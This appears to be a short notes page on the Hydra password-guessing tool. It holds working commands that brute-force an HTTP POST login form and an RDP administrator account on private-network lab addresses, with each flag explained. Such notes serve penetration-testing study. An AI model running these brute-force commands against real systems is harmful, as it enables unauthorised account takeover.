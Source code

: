 Some useful notes [here](https://github.com/gnebbia/hydra_notes)

```bash
hydra 192.168.1.69 http-post-form "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" \
-L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
# Here we specified:
 # Host = 192.168.1.69
 # Method = http-form-post
 # URL = /w3af/bruteforce/form_login/dataReceptor.php
 # Form parameters = user=^USER^&pass=^PASS^
 # Failure response = Bad login
 # Users file = users.txt
 # Password file = pass.txt
 # Threads = -t 10
 # Wait for timeout = -w 30
 # Output file = -o hydra-http-post-attack.txt
```

after `http-post-form`, we must specify three parameters separated with colon:
- path to login
- POST parameters
- Response to look for or to avoid (F for failure or S for success)

## Useful flags

-d: debug

## Attacking services
![[hydra.png]]

## Examples

Attacking RDP service with passwords ranging from 6 to 8 characters, including uppercase, lowercase and number:

```bash
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```